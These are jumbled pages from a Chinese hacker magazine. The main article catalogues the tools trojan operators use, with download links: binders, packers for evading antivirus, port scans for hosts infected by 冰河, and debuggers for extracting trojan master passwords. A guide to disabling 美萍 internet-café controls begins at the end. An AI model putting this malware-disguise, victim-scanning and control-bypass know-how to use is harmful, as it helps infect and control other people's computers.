## 17．API 调用查询工具 API Spy

顾名思义，这个程序是用来侦测软件都调用了哪些 API。API 就是 Windows 程序执行时所呼叫的函数，跟 DOS 下的 INT（中断）差不多，Windows 提供了很多这样的函数让程序设计者套用，主要目的是为了节省软件开发的时间，方便大家开发软件。API Spy 就是这样一个监控 API 调用的软件，可以工作在 Windows 95/98/NT/2000 平台下。它可以查看应用程序调用了哪些 API，从而得出对木马高手有用的 API 调用信息，通过这些 API 调用来设定断点，进而一步一步达到调试软件的目的（图20）。其实，API Spy 只是个辅助工具，起“投石问路”的作用，真正解决问题的还是 TRW2000 和 W32dasm 8.93 等工具。这类工具软件还有 Softsnoop，由于与 API Spy 功能差不多，就不多介绍了，感兴趣的朋友可以下载一个试试。

API Spy 下载地址：http://www.vckbase.com/tools/assist/apis32.zip

Softsnoop 下载地址：http://www.programmerstools.org/files/debuggers/softsnoop.zip

本文仅仅列出了几种有代表性的木马高手所用的工具，希望你能通过它们了解木马高手所用的工具和手段，从一个侧面了解增强网络安全意识的必要性和紧迫性，并因此能采取相应的防范措施。

### 窥视木马高手

#### 工具篇

文／洋葱菜

去年可以说是木马活动频繁的一年，众多木马你方唱罢我登场，从大名鼎鼎的冰河，到其各种变种，再到黑洞2001、网络公牛、网络神偷……给大家的网上生活带来了很大的不便，网上安全也受到了极大的威胁。孙子兵法云：“知己知彼，百战不殆”；因此我们有必要先来了解入侵者所使用的工具和手法，然后再采取相应的防卫办法。

### 1．资源修改工具 eXeScope

eXeScope 是一个可以修改软件资源的工具，功能强大。eXeScope 可以在没有资源文件的情况下分析、显示不同的信息，重写可执行文件的资源，包括 EXE、DLL、OCX 等文件的资源都可以修改编辑。它可以直接修改用 VC++ 及 Delphi 编制的程序的资源，包括菜单、对话框、字串表等，是汉化软件的常用工具。在木马高手手中，它常被用来修改文件资源中的菜单、对话框、字串表等，用以显示他所需要的信息，例如更改版本号等，然后再把木马捆绑上，“帮助”作者提前出“新版本”，以此达到诱使人上当的目的（图1）。这类软件还有 Resource Hacker 等，由于特点与 eXeScope 差不多，就不多介绍了。

eXeScope 下载地址：http://newhua.ruyi.com/down/EXESC630.ZIP

Resource Hacker 下载地址：http://www.cnvnet.com/download/d/reshacker.zip

若单用 eXeScope 进行加工还不够隐蔽，不足以使人上当，为此，木马高手们又用下面一种武器。

### 2．捆绑软件 exeBinder 等

exeBinder 可以提取被捆绑文件的图标，做到天衣无缝。它主要用来把木马绑到其他软件上。运行平台可以是 Windows 3.x/Windows 95/Windows 98/Windows NT/Windows 2000 等。该软件的原理：小程序将指定的木马程序捆绑到任何一个广为传播的热门软件上，使宿主程序执行时，寄生程序（木马程序）也在后台被执行。当你再次上网时，你已经在不知不觉中被木马控制住了。你说这个 exeBinder 恐怖不？并且它支持多重捆绑，实际上是通过多次分割文件、多次从父进程中调用子进程来实现的。木马们能多次骗取受害人的信任，exeBinder 可谓功勋累累（图2）。这类捆绑软件还有很多，如 exebind、exe2tol 等。

exeBinder 下载地址：http://hqg.myrice.com/mm/exeBinder.zip

exebind 下载地址：http://www.ttian.net/downhkgj/exebind.zip

如果仅仅这样还不足以让木马高手们满足，他们又采用了下面这个工具，来满足他们的欲望。

### 3．UltraEdit 等十六进制编辑器

UltraEdit 是个十六进制编辑器，可以用十六进制方式编辑文件，修改文件的内容。DOS 下也有这样的工具，如 Hiew 等。为方便使用，很多木马高手又准备了一款 Windows 下的工具，这样的工具很多，如 UltraEdit、WinHex、Hex Workshop 等，其中 UltraEdit 比较有特色，操作方便，更有汉化版可用。对于这个出色的十六进制编辑器，木马高手们多用它来修改木马文件，冰河的众多变异版本的出现，可没少借助 UltraEdit 的力量（图3）。

- UltraEdit 下载地址：http://61.177.64.99/down/uedit32.zip
- WinHex 下载地址：http://211.100.5.99/tools/Editors/winhex/winhex.zip

经过以上几步的改造，一个“新”的木马就已经产生了，不过，目前它的体积还有些过大，下面就该进一步隐藏减少其体积了。

### 4．可执行文件压缩工具 ASPack 和 ASProtect、UPX 等

ASPack 可压缩 Windows 32Bit EXE 文件与 DLL 文件，最新版本 2.11d。用 ASPack 压缩可执行文件一般可压到原来文件大小的 50% 左右，这样就可以把很大的木马变小，从而更加隐藏，更加利于传播（图4）。ASProtect 也是 EXE 文件压缩加密软件，压缩率虽比前者略低，但可以通过设置不同的加密密码，使木马躲过杀毒软件的特征码扫描。这方面的软件还有 UPX，UPX 是一个非常全面的可执行文件压缩软件，支持几乎所有平台上的可执行文件，具有极佳的压缩比。压缩率及压缩速度都是目前所有压缩软件之最！木马高手经常利用 UPX 对木马文件进行多重压缩，避开杀毒反黑软件的检查。同时，用这类软件压缩后，自动给木马软件加了一层“壳”（有关“壳”的概念我们在后面会提到），使改造后的木马更不易被查出来，这也是木马高手喜欢用这类软件的一个原因。

- ASPack 下载地址：http://xt.onlinedown.net/down/aspack211.zip
- ASProtect 下载地址：http://download.online.tj.cn/download/11342asprotect12.zip
- UPX 下载地址：http://gt.onlinedown.net/down/UPXmend%20V1.21.zip

至此，一个强大的、经过改造、隐藏的木马就产生了，当它们流传越来越广、受害者越来越多时，木马高手们就开始搜索更多的受害主机了。

### 5．端口扫描工具 Superscan 等

Superscan 是个功能强大的扫描器，速度奇快，探测台湾全部回应值小于 200MS 的 IP 段仅用 6 个小时。除了可以查看本机 IP 地址和域名外，更可以扫描一个 IP 段的所有在线主机以及其可探测到的端口号。在此基础上，还可以保存和导入所有已探测的信息。因此，Superscan 在查找中了木马的主机时很有用，因为它可以对指定端口进行大规模 IP 段扫描。比方说要查找中了冰河的主机，只要指定一个 IP 段，扫描端口指定为 7626 即可。一般情况下，用不了多少时间就会发现许多受害主机。Superscan 目前最新版本为 V3.0（图5）。

Superscan 下载地址：http://www.ttian.net/downhkgj/superscan3.0.zip

### 代理猎手

众所周知，代理猎手是用来搜索免费代理的好工具，所以大家一定很奇怪，木马高手用代理猎手干什么？其实，代理猎手不仅可以用来搜索免费的代理服务器，还可以扫描特定的端口，从而找到中了木马的用户。另一方面，代理服务器还可以让多台计算机使用一个出口与网络连接，不但节省网络费用，而且可以有效地加大网络访问速度，增强本网络的安全性。为了自身的安全，木马高手也很需要它。再者说，代理服务器可以有效掩饰自己的 IP 地址，通过一个甚至多个代理，木马高手可以很“安全”地对目标进行攻击。不过，在这里，代理猎手的主要作用就是用来搜索特定端口。

代理猎手的主要特点是：支持多网址段、多端口自动查询，支持自动验证并给出速度评价，支持后续的再验证，支持用户设置连接超时和验证超时，支持用户设置验证内容，支持进度时间预测，支持用户设置最大连接数（可以做到不影响其他网络程序），支持自动查找最新版本，最大的特点是搜索速度快，最快可以在十几分钟内搜完整个 B 类地址的 65536 个地址（图6）。

代理猎手下载地址：http://go.163.com/zytiantian/proxyht300b5.zip

由于木马高手一般只是对木马感兴趣，所以对漏洞扫描器兴趣不大，因此对这类工具使用不多（否则就成为入侵或黑客高手了），在此就不多介绍了。

为进一步了解木马服务端的运行情况，有时木马高手们还得让自己中一回木马。如果是不熟悉的木马又该怎样保护自己呢？经过一番探秘，发现他们经常会用到下面这些工具。

### 6．PrcView

PrcView 是个免费的进程查看工具，可以显示现在运行的进程信息。这些信息包括这样的细节：生成时间、版本、选定进程使用的 DLL 文件的全路径、所有线程的列表、内存块和堆栈。PrcView 也允许你杀死或附带一个调试器到选定的进程，PrcView 可在 Win 9X/Me/NT/2000 下运行。木马高手们经常用 PrcView 来了解进程运行情况。再说，常在河边走，哪有不湿鞋的？玩马的人为保护自己也不得不配备这样的武器。可以说 PrcView 等进程查看器是防杀木马必备的工具，建议你也找来一个用用（图7）。如果不习惯用它，可以用我们大家熟悉的系统优化软件 Windows 优化大师，它也具有这类功能模块。

PrcView 下载地址：http://sq.onlinedown.net/down/HAF-PrcView3538-Ronnier.zip

Windows 优化大师下载地址：http://newhua.ruyi.com/down/wom.exe

### 7．Filemon

Filemon 是文件监视工具，可监视系统中指定文件运行状况，如指定文件打开了哪个文件、关闭了哪个文件、对哪个文件进行了数据读取等。通过它，任何你指定监控的文件有任何读、写、打开其他文件的操作都能被它监视下来，并提供完整的报告信息。木马高手经常利用 Filemon 监控文件系统，查看在文件运行后系统中的文件变化情况，如建立了哪个文件（一般是建立木马服务端文件或服务端密码文件），打开并写入了哪些文件（一般是写入加密信息或写入得到的服务端密码等），以便窥视木马的一举一动（图8）。

下载地址：http://newhua.ruyi.com/down/FILEMON.ZIP

### 8．注册表监视工具 Regmon 等

注册表监视工具主要有 RegShot、Regmon 或 RegSnap 等。在 Windows 操作系统中，众多的设置都存放在注册表中，注册表是 Windows 的核心数据库，表中存放着各种参数，直接控制着 Windows 的启动、硬件驱动程序的装载以及一些 Windows 应用程序的正常运行。在应用软件安装时，有可能将一些必要的信息放进去，如安装时间、使用次数、注册码等，其中也有木马高手们感兴趣的服务端所建键值等信息。RegShot、Regmon 或 RegSnap 就是监视注册表变化的工具，通过它可以了解、监视应用程序在注册表中的动作，木马高手常利用它们来监视服务端程序在注册表中的变化，如木马在注册表中建立了哪些键值，在哪个位置。不要忽略了这些地方，这很可能就是木马的命根子——许多木马就是通过在注册表隐藏加载运行的，比方说：

- HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion 下所有以“run”开头的键值；
- HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion 下所有以“run”开头的键值；
- HKEY_USERS\.Default\Software\Microsoft\Windows\CurrentVersion 下所有以“run”开头的键值。

这些地方是木马的很好的隐藏地点，因此通过检查这些地方，也是查杀木马的主要手段之一。但是，木马们不会仅仅只在这些地方建立键值（如果仅仅在这里等于等死，事实上，木马的加载方式很多，注册表仅仅是其中之一），如果需要更改文件关联，它还会更改注册表的某些键值，所以不能只检查上面那几个地方。此时，Regmon 等注册表监视工具就派上用场了——毕竟有它们的随时监视，比我们自己手工检查要简单得多、细致得多，也彻底得多。所以，木马高手必备工具还少不了 Regmon 等注册表监视工具（图9）。

RegShot 下载地址：http://www.pediy.com/TOOLS/spy%20tools/RegShot/rgst150a.zip

Regmon 下载地址：http://www.soft999.com/download2/regmon95.zip

RegSnap 下载地址：http://www.soft999.com/download2/regsnap.zip

### 9．木马克星和 The Cleaner、Trojan Remover

###### 木马克星

木马克星是一款国产查杀木马软件，它对国产木马的查杀堪称第一。目前最新版本为 5.24，可运行在各种平台下。木马克星可以查杀 5021 种国际木马、112 种电子邮件木马，保证查杀冰河类文件关联木马、QQ 类寄生木马、ICMP 类幽灵木马、网络神偷类反弹木马；并且内置木马防火墙，任何黑客试图与本机建立连接，都需要木马克星确认，不仅可以查杀木马，更可以查黑客。该软件是动态监视网络与静态特征字扫描的完美结合，可以查杀木马种类非常多。

木马高手们用木马克星有三个目的。一方面，木马高手们在使用某个木马前，要用木马克星来检查，看它能否查出这个木马；另一方面，在改造了某个木马程序后，木马高手们用木马克星来进行二次检验，看它能否查出；第三，有时为防止自己在玩马时不小心中“马”，也会用这个软件来检查（毕竟用软件来检查更省事一些），当然，对木马高手们来说这种情况并不多。在国内木马高手们看来，The Cleaner 等国外木马查杀软件根本不足惧，而木马克星就很令他们“头疼”——如何才能编制（改造）出一个不会被木马克星查出来的木马呢？

下载地址：http://gt.onlinedown.net/down/iparmor.exe

###### The Cleaner

The Cleaner 目前的最高版本为 3.2 Build 3213，它可在目前主要的 Windows 平台 Win 9X/NT/2000 中应用。The Cleaner 可能是目前最好的反国外木马的工具了，也是目前查木马数量最多的。它最招人喜爱的地方还属它可以随时自动升级，只要轻点 UPDATE 按钮即可，不像 LOCKDOWN 还要查你的密码，绝对是查木马工具的首选。它的实时监控程序 TCA，可即时显示当前所有运行程序并有详细的描述信息，是个帮你了解系统的好帮手。木马高手用它的目的同用木马克星一样：主要用来测试木马，看其是否可以查出改造后的木马；或者在自己“犯懒”不想手动查杀木马时，让 The Cleaner 上去显显身手（图11）。

下载地址：http://newhua.ruyi.com/down/cleaner3.exe

###### Trojan Remover

Trojan Remover 目前的版本为 4.4.8，应用平台 Win9x/Me/NT/2000。Trojan Remover 是一个专门用来清除特洛伊木马和自动修复系统文件的工具，能够检查系统登录文件，扫描 WIN.INI、SYSTEM.INI 和系统登录文件，且扫描完成后会产生 Log 信息文件，并帮你自动清除特洛伊木马和修复系统文件（图12）。

用它的目的同前，不再赘述。

下载地址：http://sq.onlinedown.net/down/trjsetup.exe

### 10．防火墙软件天网个人防火墙等

天网个人防火墙目前最新版本为 V2.46 Beta。天网防火墙个人版是一套给个人电脑使用的网络安全程序，它可以帮你抵挡网络入侵和攻击，防止信息泄露，并可与天网开发者的网站相配合，根据可疑的攻击信息，来找到攻击者。同时，天网防火墙个人版把网络分为本地网和互联网，可以针对来自不同网络的信息，设置不同的安全方案，它适合于拨号上网的用户，也适合通过网络共享软件上网的用户。天网防火墙是国产软件的骄傲，对付各种攻击应付自如，许多个人电脑用户都使用这个防火墙。木马高手们常用它们来作实验，看某个木马是否可以穿过这些防火墙。武林高手在学艺时，未学打人，先学挨打，木马高手亦如此，在攻击别人前也要穿好保护铠甲，天网等防火墙就是起这个作用的（图13）。


下载地址：http://newhua.ruyi.com/down/skynet2.46.exe

仅仅是使用上面这些工具的“放马”者，还不是一个真正的木马高手！真正的木马高手还要自己编制木马。因此，VC、Delphi、VB等也应该是木马高手的必备工具。不过，这些不在本篇的讨论范围之内，所以就不多说了（其实是自己不懂，所以……）。但是，真正的木马高手除了自己编制木马外，他还会改造或分析别人的木马，目的嘛，当然是为了取长补短，学习最先进的木马编制技术了。从另一个角度来说，目前许多国内的木马软件编制者将自己编制的木马保留了万能密码，如各种改版的冰河和黑洞2001等，为了得到这些万能密码，木马高手的工具箱就又多了下面这些工具。

##### 11. 脱壳工具 Procdump

现在许多软件都加了壳，木马也不例外。“壳”是一段专门负责保护软件不被非法修改或反编译的程序。它们一般都是先于程序运行，拿到控制权，然后完成它们保护软件的任务。经过加壳的软件在跟踪时已无法看到其真实的十六进制代码，因此可以起到保护软件的目的。Procdump就是一个对付软件加壳的脱壳工具，它可剥去许多种壳，还文件本来面目，这样再修改文件内容就容易多了。由于它还允许使用者自己编写脚本文件，因此利用它能脱去新版加壳软件的壳。它同时还是一款优秀的PE格式修改工具，是脱壳必备工具（图14）。木马高手用它来脱去木马的“壳”（好比将甲鱼的壳给扒去了，这样再对付甲鱼就容易多了——宰杀全由您），进而再用其他软件来分析它，这些软件我们会在下面加以介绍。


下载地址：http://sffs.533.net/cracktool/procdump.zip

##### 12. 侦测文件类型和入口点工具

这样的工具有Typ、FileInfo、Language2000和冲击波2000等。它们被用来侦测软件被加壳类型或程序入口点。其中冲击波2000能轻易找到任何加密壳的入口点，包括ASProtect以及幻影的加密壳都可以。Language2000更是木马高手的称心武器，该木马是用什么软件编制的，用的是什么软件加的壳，只要用Language2000加载运行该木马，就可以一清二楚，明明白白（图15）。这类软件一般是配合Procdump和调试软件使用的，用它们找到程序加壳类型和入口点，用Procdump或Soft-ICE、TRW2000脱壳。


朋友可能有些糊涂了，不是说Procdump可以脱“壳”的吗？Procdump的确可以脱“壳”，不过，就像WinZip不能解压缩所有的压缩文件一样，Procdump不能脱去所有软件的“壳”，而且到1.6.2 FINAL版为止，软件作者已经停止升级该软件了，尽管可以自己编写脚本文本来脱去新软件的“壳”，但不是每个朋友都会编写这样的脚本文本文件。所以，这类侦测文件类型工具应运而生。木马高手用这类软件的目的就是为了了解木马是用什么软件加的“壳”，用什么软件编制的程序，为脱壳和用相应的软件跟踪调试做准备。

- Typ 下载地址：http://mud.sz.jsinfo.net/per/aaron/files/file-analyzers/typ_d32.zip
- FileInfo 下载地址：http://211.100.5.99/tools/unpack/File%20Info/fi245.zip
- Language2000 下载地址：http://person.longcity.net/home3/fpxfpx/HA_language2k451144_YY.zip
- 冲击波2000 下载地址：http://www.pediy.com/tools/unpack/bw/bw2k02.zip

##### 13. 调试类工具 Soft-ICE 和 Trw2000

Soft-ICE是目前公认最好的跟踪调试工具。使用Soft-ICE可以很容易地跟踪一个软件，或是监视软件产生的错误进行除错，它有DOS、Windows 3.1、Win 95/98/NT/2000各个平台上的版本。这个本是用来对软件进行调试、跟踪、除错的工具，在解密高手手中变成了最恐怖的破解工具。Trw2000是中国人自己编写的调试软件，完全兼容Soft-ICE各条指令，由于现在许多软件都能检测Soft-ICE存在，而对TRW2000的检测就差了许多，因此目前它成了解密高手们的最爱。TRW2000专门针对软件破解进行了优化，在Windows下跟踪调试程序，跟踪功能更强；可以设置各种断点，并且断点种类更多；它可以像一些脱壳工具一样完成对加密外壳的去除，自动生成EXE文件；因此它的破解能力更强，


在解密者手中对共享软件的发展威胁更大（图16）。它还有在DOS下的版本，名为TR。

有的朋友可能觉得奇怪，怎么说到解密高手的武器了？千万不要觉得奇怪，一个木马高手也应该成为调试高手，如果不跟踪了解别人的软件，学习先进的技术，自己是永远也不会进步的！另外，为了安全地使用木马，最好能对自己所使用的木马进行一番跟踪调试，否则，就像冰河似的有万能密码自己还不知道就不好了。用Soft-ICE和Trw2000可以轻松跟踪出这类密码或后门，如果是需要注册才能使用的木马，就更可以派上用场了，要知道Soft-ICE和Trw2000几乎就是为此而“生”的（你自己拿它们走“邪路”，还连带这类软件，真是的）！不过，要用好它们也要花费一番功夫的。如果你感兴趣，我们可以共同探讨、学习。

- Soft-ICE 下载地址：http://sffs.533.net/cracktool/i405w9x.exe
- Trw2000 下载地址：http://sffs.533.net/cracktool/trw2000.zip
- TR 下载地址：http://www.crackbest.net/unlock/debug/tr252.zip

##### 14. 静态反汇编工具 W32dasm8.93 黄金版和 Hiew、IDA Pro

木马高手常将Soft-ICE和Trw2000比作屠龙刀，将W32dasm 8.93则比作倚天剑。W32dasm 8.93可方便地反汇编程序，它能静态分析程序流程，也可动态分析程序。在原有的普通版基础上，一些调试高手又开发出了W32dasm8.93黄金版，加强了对中文字符串的提取，对国产共享软件的威胁也就更大了（图17）。例如开心斗地主这个很好玩的共享软件，用黄金版对其反汇编可以直接看到注册码，普通版不能，你说它厉害不？Hiew是一个十六进制工具，它除了普通十六进制的功能外，它还有个特色，能反汇编文件，并可以用汇编指令修改程序，用它修改程序，方便快捷！这两个软件也是木马高手们常用的静态反汇编工具。部分木马高手也有用IDA Pro Advanced来进行静态反汇编的，IDA Pro是一款极好、极好的反汇编工具，它大大地胜过了W32dasm。不过，IDA Pro使用起来很麻烦，一旦你掌握了它，你就会喜欢上它了。


为什么要用静态反汇编工具呢？如果你的汇编语言不够好，或者木马软件跟踪、调试起来太困难（哇，迷路了——怎么走进汇编丛林了），这些静态反汇编工具就发挥作用了。用它们可以直接将木马反汇编（如果是加了壳的要先进行脱壳），从中找到有用的提示信息。举个例子，著名的木马黑洞2001就有个万能密码，有了万能密码就可以随意控制任何运行有黑洞2001服务端程序的用户，那么怎么发现它呢？

要和黑洞2001服务端连接，除了拥有木马客户端程序外，还要有相应的连接密码，如果没有，有万能密码也可以。用W32dasm8.93黄金版反汇编就可以通过搜寻、分析相关的信息，得到关键的调用信息（在汇编语言中用“CALL”来表示），这个“CALL”内就是密码比对的地方，即木马软件用来判断密码到底是否正确的地方，由此就可以跟踪得到这个万能密码。这样讲可能有些抽象，但限于条件我们只能讲这么多（否则就成解密教材了），有兴趣的朋友可以共同探讨。啰嗦了半天，你该明白W32dasm8.93黄金版和Hiew的用处了吧？

- W32dasm8.93 黄金版下载地址：http://www.crackbest.net/unlock/discomp/ch-w32dasmgold.zip
- Hiew 下载地址：http://sffs.533.net/cracktool/hview64.zip
- IDA Pro 下载地址：http://toye.533.net/tools/Disassemblers/ida/ida404.zip

##### 15. Visual Basic 程序调试工具 SmartCheck

这是专门针对Visual Basic程序的调试软件，由于VB程序执行时从本质上讲是解释执行，它们只是调用VBXXX.DLL（动态链接库）中的函数，因此VB的可执行文件是伪代码，程序都在VBXXX.dll里面执行。若用Soft-ICE跟踪调试只能在动态链接库里面打转转，看不到有利用价值的东西，而且代码质量不高，结构还很复杂。

然而，只要了解其特点，用Soft-ICE也可破解，但SmartCheck的出现，大大方便了调试高手们。SmartCheck是NuMega公司出品的一款出色的调试解释执行程序的工具，目前最新版本是V6.03。它非常容易使用，你甚至于不需要懂得汇编语言都能轻易驾驭它。它可将VB程序执行时的操作完全记录下来，使木马高手轻而易举地调试跟踪大部分VB程序，从而得到对其有用的东西，如木马的注册码、后门、程序设计流程以及程序缺陷等（图18）。


这类VB程序调试软件还有ollydbg等，使用起来与SmartCheck差不多，它几乎就是为解密而生的。所以虽然整体功能没有SmartCheck强大，但在解密方面更专业一些。

- SmartCheck 下载地址：http://sffs.533.net/cracktool/sc603.exe
- ollydbg 下载地址：http://person.longcity.net/home3/fpxfpx/ollydbg.rar

##### 16. Delphi 程序调试程序 DeDe

DeDe是专门针对Delphi程序的调试软件，由于Delphi程序反汇编后的可读性不是很强，所以有了此类专门针对Delphi程序的工具。用DeDe调试Delphi程序可以轻松地得到其相关的资源，如窗体、模块信息、单元信息、项目等，从中可以得到木马高手感兴趣的东西，如注册码、后门、程序设计流程以及程序缺陷等。一句话，木马高手用DeDe的主要目的就是为了调试木马程序，为己所用。DeDe目前最新版本为V3.0（图19）。


下载地址：http://www.pediy.com/TOOLS/Decompilers/DeDe/DeDe250.zip

## 永远的 UNIX

### ——站点推荐之 UNIX 专辑


- ★ 永远的 UNIX（http://www.fanqiang.com/）

  国内著名的学习UNIX的最佳站点，UNIX爱好者的乐园！该站为非赢利性个人网站，旨在收集、推广、共享UNIX知识及经验，让更多的人轻松掌握UNIX。

- ★ 汇智软件园（http://www.aptsoft.net/eshop.html）

  汇智软件园是一个制作精良的UNIX技术网站，提供最实用的UNIX类软件及丰富的UNIX学习资料，供UNIX爱好者使用与交流。

- ★ UNIX EASY LEARN（http://onyxluo.myetang.com/）

  一个适合UNIX初学者的UNIX学习与技术站点，从“什么是UNIX”开始教你学习UNIX！

- ★ 中国超级 UNIX 联盟（http://www.csuu.com）

  中国目前最酷的UNIX专业站点，网管的天堂，中国超级UNIX联盟也是中国最大的服务器端软硬件技术支持门户网站，主要栏目设置有：新闻中心、教学培训、U联社区、联盟专卖、文档资料、软件下载、解决方案、协作开发、系统集成、客户服务等。

- ★ UNIX/Linux 大本营（http://hahahawk.myrice.com/）

  UNIX/Linux大本营提供了学习、讨论UNIX、Linux、AIX、FreeBSD、Xenix等等各种UNIX变种操作系统的丰富技术内容，并有应用之门、经验点滴、开发园地、黄金下载、参与讨论、重要站点等栏目。

- ★ UNIX（中国）门户站点（http://www.ustc.com.cn/）

  UNIX（中国）门户站点系UNIX（中国）技术有限公司创办网站，有关UNIX的技术及产品，内容涉及广泛，详实。

- ★ SCO UNIX 中国站点（http://www.sco.com.cn/）


  SCO中国公司是原UNIX操作系统供应商SCO美国公司在中国的合资子公司。随着Caldera与SCO的合并，SCO中国公司已成为Caldera国际公司在中国的合资子公司。该站包含有与Linux和UNIX平台相关的开发、运行和管理解决方案以及OpenLinux、Open UNIX和SCO OpenServer系列产品和技术服务的相关内容。

- ★ UNIX 在线（http://scUNIX.51.net/）

  一个不错的UNIX学习站点，为各种水平的UNIX爱好者量身定作，“因为热爱——所以追求”是该站的口号，设有UNIX初学、渐入佳境、建网建站、相关下载及UNIX论坛等栏目，其中UNIX技术论坛人气很盛，值得一看。

- ★ UNIXPress（http://www.UNIXpress.com.cn/）

  中国第一个UNIX资料和图书的网络专卖站点，能够让你在网络上轻松查阅和订购多种UNIX专业资料，并成为你了解UNIX最新进展的理想地点。

### 好书推荐


经过我们读者调查表的反馈情况，我们和互动出版网（www.china-pub.com）联合为大家推出精品图书展示，光盘内还有部分免费试读的内容，当然，在阅读时，你需要安装光盘提供的阅读器。如果你需要该图书，请汇款到本刊编辑部，我们将以快递将书送到你的手上。

邮政编码：100080

邮购地址：中关村邮局008信箱

收款人：黑客防线邮购部

### Linux技术大全（原书第4版）

原书名：Linux: The Complete Reference, Fourth Edition

原出版社：McGraw-Hill

作者：（美）Richard Petersen

译者：陶华敏 姜志翔 任宇飞 谢晓竹 等

定价：¥98.00

出版社：机械工业出版社


本书介绍Linux操作系统的知识，内容包括：安装Red Hat和Caldera，以KDE 2.0和Gnome为开端，介绍Linux下不同的用户环境，讨论了在Linux系统下运行的互联应用程序，回顾Linux下的应用程序，讨论互联网服务器，分别讨论用户、文件系统、设备、内核和X Windows系统管理等。本书编排独特，阅读方便，针对性强。适合想学习和了解Linux操作系统的初、中级人员使用。

### Linux安全：入侵防范、检测和恢复

原书名：Real World Linux Security: Intrusion Prevention, Detection, and Recovery

原出版社：PH PTR

作者：（美）Bob Toxen

译者：前导工作室

定价：¥67.00

出版社：机械工业出版社


本书介绍Linux系统安全维护的技术。主要内容包括：一般性安全问题、高级安全问题、安全策略、信任机制以及猝发入侵和最近的入侵方法，如何为入侵做准备，如何进行入侵检测，如何成功、安全、快速地从遇到的入侵中进行恢复等。本书内容丰富，章节安排合理，适合广大Linux或UNIX系统管理员以及对安全方面感兴趣的读者阅读。附带光盘包括安全性监视工具软件。

### Web数据库开发学习指南

原书名：Step by Step Web Database Development

原出版社

作者：（美）Jim Buyens

译者：胡智娟 尉林栩明 薛永毅 卢孟夏

定价：¥49.00

出版社：机械工业出版社


本书讲述了如何建立在WWW上运行的数据库应用。主要内容包括：网页数据库的介绍，应用程序的建立，使用IIS Session对象累计数据，使用XML交换数据，格式化和调试等等。本书内容全面、实用性强，并提供了改进Web数据库网页性能和诊断网页运行故障的一系列技巧。所附光盘包括了书中所有程序的源代码。

#### C++Builder 5 程序设计大全

原书名：C++Builder 5 Developer's Guide

原出版社：SAMS

作者：（澳）Jarrod Hollingworth

译者：康向东 汪浩 黄金才 等

定价：¥138.00

出版社：机械工业出版社


本书介绍C++Builder 5开发平台的各种技术，以及使用C++Builder来创建更为完整的应用程序的方法。主要内容包括：C++Builder 5基础，通信、数据库和Web编程，接口和分布式计算，高级技巧等。本书深入浅出，实例丰富，是C++Builder高级开发人员不可多得的一本好书。初级开发人员也可以参考书中所列的各种资源。光盘包括C++Builder 5试用版、书中示例代码以及其他一些组件和工具。

> 有人说生命是脆弱的，总是要忍受痛苦的折磨；有人说生命是简单的，简单了：美丽，简单的生命给我们带来了什么呢……

## 生命中的简单

文／左左

生命就是从自己的哭声中开始，在别人的泪水中结束。简单而又美丽。

总是期待黎明的到来，因为夜太黑，病魔无声地吞噬我的身体，让我辗转反侧，身不由己地痛。年仅21岁的我已放弃学业，我的人生太不完美，只有癌在扩散。于是我不再有期盼，我的内心很明白。夜与昼，生与死，我身处其间，时间对此刻的我又是怎样的呢？

我也不像常人那样有规律地生活了，总会在漆黑的夜醒来。也不知从何时养成的习惯，一杯清Coffee，独坐电脑旁，我一次又一次原谅自己用休息的时间停留在Internet上，没办法，这样的选择是无奈的。

我试着去寻找和我一样忍受痛苦的人，4月1日，当我开机时只有QQ：******（两天），被黑了，我既生气又好奇，生气是因为他黑我，好奇是因为他的QQ昵称叫两天，而我的QQ昵称是一天。

一天：“你真无耻，黑人家的东西！”想到今天是愚人节，再想想他黑了我，内心的愤怒难以抚平。

两天：“只是happy一下，无所谓！”

一天：“难道你没有站在别人的立场去考虑一下么？”

两天：“sorry，没有。”

一天：“希望不再有下一次。”

两天：“说不准喔，please wait，你告诉我你家的地址好了，我打算黑你家哟！”

一天：“有胆量就来吧，address: I will kill you！”

两天：“嘿，太凶了！”

我不知道该怎么样回答他，沉默不语，突然间发疯似的问他：“你快乐吗？你的生命会在延续吗？”这突如其来的一问让他沉默不语，刹那间，我觉得好无聊，喝了口Coffee，便关机了。

生命沉重的轻。

相隔数日，再打开电脑，天哪，又被黑了。

一天：“我不认识你，请你远离我，知不知道你让我感觉你像瘟疫？”

两天：“是吗？而我认识你呀，one day，你开心点吗，别总像个老太婆在对我说话！”

一天：“你怎么知道我不开心？”

两天：“当然知道，你的言语流露出来的。”

一天：“你别总那么无聊，行不行？”我有点不耐烦了。

两天：“OK，这次谈话到此为止，我先说拜拜，免得你无礼地离去。”

就这样结束了谈话，一闪而过。生活不断地反反复复，也许日子不那么平静才会好一些。

某天上网。天啊！我的个人主页被黑了！仅留下一封信：

> “Hello，不好意思，又黑你一次，只是为了让你看到我的信。:) 在和你交谈中，当你问我生命是否会在延续时，我真的不知道说什么。我有两种生活：一、在寂静的夜做黑客；二、在温暖的白天做个垂死的病人。两种生活都让我投入，前者是全情投入，后者是无可奈何。听你的，这是我最后一次黑人。我想你也在苦苦支撑着自己短暂的生命，只希望我们都过得开心一点，只为短暂的一天、两天……”

我的眼泪就要滴下来了，忘记了他两次黑我所带来的愤怒。就这样我接受了他，在以后的日子，我们有长达半年的交谈。我们一直避免我们的疾病不谈，将心灵中最痛的掩藏在心底，而我的健康状况也每况愈下。试想一下：如果一个人发觉自己控制不住地每天丢一样东西，他心里的失败感会有多强。但是，慢慢地我已经学会了接受事实，死亡并不可怕，它是生命的一部分。我想很重要一部分原因来源于不断的鼓励。半年来，我过得很开心。

一天：“你过得好吗？我很想念你。”

两天：“很好，我今天买了12枝玫瑰，真的想送给你！”

一天：“你替我保管着，把花放在花瓶里，

（下转11页）

## “美萍”破解全攻略

经常光顾网吧的上网用户都知道，美萍是各网吧最常用的管理软件之一，用于对上网用户除WWW浏览以外的诸多限制。老实讲，用户花钱上网当然希望得到更多更好的服务与使用自由，这些限制虽然出于网吧所有者的安全考虑，但多少过于“死板”和严格了一点。笔者从用户角度出发，总结了以下一些对美萍破解的经验，希望与大家分享。

- 首先是两个小技巧：
  1. 对美萍的开始启动时的禁用：在计算机启动至蓝天白云界面时按 Ctrl+Alt+Del 结束 SMENU（需要结束两次）。
